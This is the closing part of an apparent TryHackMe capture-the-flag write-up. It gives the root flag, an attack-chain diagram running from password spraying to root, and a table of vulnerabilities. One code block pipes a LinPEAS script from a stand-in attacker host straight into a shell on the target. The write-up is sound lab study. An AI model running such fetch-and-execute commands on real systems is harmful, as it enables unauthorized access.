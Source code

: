**🏆 Root Flag Captured:** `THM{098f6bcd4621d373cade4e832627b4f6}`

---

## 🛠️ Alternative Enumeration: LinPEAS

For comprehensive automated enumeration:

```bash
# On attacking machine
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
python3 -m http.server 8000

# On target machine
curl -L http://ATTACKER_IP:8000/linpeas.sh | sh
```

---

## 📋 Attack Chain Summary

```mermaid
graph TD
    A[Port Scan] --> B[Web Enumeration]
    B --> C[Username Discovery]
    C --> D[Password Spraying]
    D --> E[SilverPeas Access]
    E --> F[SSH Credentials]
    F --> G[User Access]
    G --> H[Log Analysis]
    H --> I[Password Reuse]
    I --> J[Root Access]
```

---

## 🔍 Key Vulnerabilities Identified

| Vulnerability | Impact | CVSS Score |
| --- | --- | --- |
| **Information Disclosure** | SSH credentials in application messages | High (7.5) |
| **Authentication Bypass** | CVE-2024-36042 | Critical (9.1) |
| **Password Reuse** | Same password across multiple accounts | Medium (6.5) |
| **Log Information Disclosure** | Passwords in system logs | High (7.1) |
| **Excessive Privileges** | Unrestricted sudo access | High (8.4) |

---

## 🛡️ Remediation Recommendations
